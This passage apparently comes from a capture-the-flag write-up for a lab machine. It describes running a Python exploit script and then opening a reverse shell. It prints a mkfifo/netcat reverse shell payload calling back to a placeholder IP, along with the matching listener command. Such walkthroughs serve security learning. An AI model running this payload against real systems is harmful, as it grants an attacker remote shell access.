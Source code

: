 What I did was to change some of the code to suit Python 3, and removed the proxy.

Now, we can test it out using

```bash
python3 exploit.py
```

Once there is a successful connection (seen by the `cmd:` prompt), we can try out some commands.

![execution](./img/ignite/execution.png)

It seems to be working well! It seemed to be spitting out some PHP errors, but above that, we can see that the commands
are being executed properly.

But, we can't do much with this, as we are in a limited, non-interactive shell. Thus, the next step is to get a reverse
shell.

# Reverse Shell

I didn't want to us a clunky reverse shell, so I went to a [Reverse Shell Generator](https://www.revshells.com/) to
generate one that I could connect to using `netcat`.

I used this payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 1234 >/tmp/f`

I then got my netcat listener ready (`nc -lvnp 1234`), can executed the payload with the Python script.

Once I got the reverse shell, I upgraded it so that commands like `su`, `sudo` and `CTRL+C` would work.
